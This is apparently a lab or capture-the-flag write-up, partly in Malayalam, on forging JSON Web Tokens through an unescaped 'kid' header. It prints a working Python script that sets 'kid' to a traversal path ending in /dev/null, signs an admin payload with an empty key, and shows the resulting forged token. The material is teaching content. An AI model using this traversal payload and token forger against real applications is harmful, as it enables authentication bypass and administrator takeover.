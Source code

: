 -->This course details the exploitation of a weakness in the usage of JSON Web Token (JWT). In this application, JWT is used for authentication. Upon successful login, the user is issued a JWT in a cookie. This exercise was one of the challenges during [BitcoinCTF](https://bitcoinctf.com): one of the best and most complex web Capture-The-Flag.

## The vulnerability
-->This issue comes from one of the fields in the header: kid.
-->This parameter is available in some libraries, it's short for key identifier.
-->In this application, the kid is used without proper escaping to retrieve the key.
-->This lack of escaping could lead to multiple types of vulnerabilities, such as:
-   SQL injections.
-   Directory traversals.
-   ...

## Exploitation
-->First, you will need to automate the testing and see what happens when you tamper with the kid value.
-->After poking for a bit, you should be able to discover what type of vulnerabilities are present in the retrieval of the key
-->Using this, you will need to find a file with a content that you can predict, and use it to sign your malicious JWT.

## Conclusion
-->This exercise showed you another way to tamper with a JWT to gain administrator access in an application.
-->It showed you that having a signed value is only as strong as the way the signature is handled.
-->Here by finding a vulnerability in the way the key was retrieved, you were able to use a weak key and bypass the signature.

## Video Explanation
## Video -1 introduction
-->ivide kid enna paramter jwt token il use chyunund.ee parameter use chyunath enthinanenal original key point chyuka ennathan ee kid paramter inte job.key ullath valla database ilo, or file system ilo aakum.so evideyan key ullath avide point chyuth nokum namude kid parameter
-->Ingane database il oke aan key ullathengil namuk sqli polula vulnerabilities oke try chyam
-->so ivide lab il ee injection vech namal directory traversal aan chyunath
-->you can use any files for which you can predict the content (for example /dev/null)
-->dev/null namuk empty or nothing result tharum enariyalo.

## Video 2- python exploitation 

```python
import hmac
import base64
import hashlib
import json

from sys import version_info

header = {"typ":"JWT","alg":"HS256","kid":"../../../../../../dev/null"}
key = ""

payload = {"user":"admin"}

if version_info[0] == 2:
	str = base64.urlsafe_b64encode(json.dumps(header)).rstrip("=")+"."+base64.urlsafe_b64encode(json.dumps(payload)).rstrip("=")
	sig = base64.urlsafe_b64encode(hmac.new(key,str,hashlib.sha256).digest()).decode('utf8').rstrip("=")
else:
	str = base64.urlsafe_b64encode(bytes(json.dumps(header),encoding='utf8')).decode('utf8').rstrip("=")+"."+base64.urlsafe_b64encode(bytes(json.dumps(payload),encoding='utf8')).decode('utf8').rstrip("=")
	sig = base64.urlsafe_b64encode(hmac.new(bytes(key,encoding='utf8'),str.encode('utf8'),hashlib.sha256).digest()).decode('utf8').rstrip("=")
print(str+"."+sig)
```
-->so ee code or .py file il aaki python3 vech runc chyunu.apol namuk ingane oru token kitunu :
```http
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJIUzI1NiIsICJraWQiOiAiLi4vLi4vLi4vLi4vLi4vLi4vZGV2L251bGwifQ.eyJ1c2VyIjogImFkbWluIn0.pcLzBQQQoPb7UyhXzsb7o0N9AMfFKdbFKa2_vTL9qk0
```
-->mukalile code noke.athil header variable ile kid paramter il naaml directory traverse chyunu ie, /dev/null kodukunu.apol applicatin athil onum kanunila.so secret key empty aakunu.angnae namuk admin aayi maran patunu ok
-->NOTE : ivide namal python3 mathramala marich python2 inte code um orumich chyunu.athan aa if else kanunath.if il ullath python2 inte code um else il ullath python3 inte code um aan ok.so indiviudal aayi ee code namal mati ittalum namuk admin aayi maran patum. ie,
-->just python3 code mathram :
```python
import hmac
import base64
import hashlib
import json


header = {"typ":"JWT","alg":"HS256","kid":"../../../../../../dev/null"}
key = ""

payload = {"user":"admin"}

str = base64.urlsafe_b64encode(bytes(json.dumps(header),encoding='utf8')).decode('utf8').rstrip("=")+"."+base64.urlsafe_b64encode(bytes(json.dumps(payload),encoding='utf8')).decode('utf8').rstrip("=")
sig = base64.urlsafe_b64encode(hmac.new(bytes(key,encoding='utf8'),str.encode('utf8'),hashlib.sha256).digest()).decode('utf8').rstrip("=")
print(str+"."+sig)
```
-->ipol python3 code mtharam aan.ok. ini ee code run chyth kituna token eduth replace chythalum namuk admin aayi marann patum ok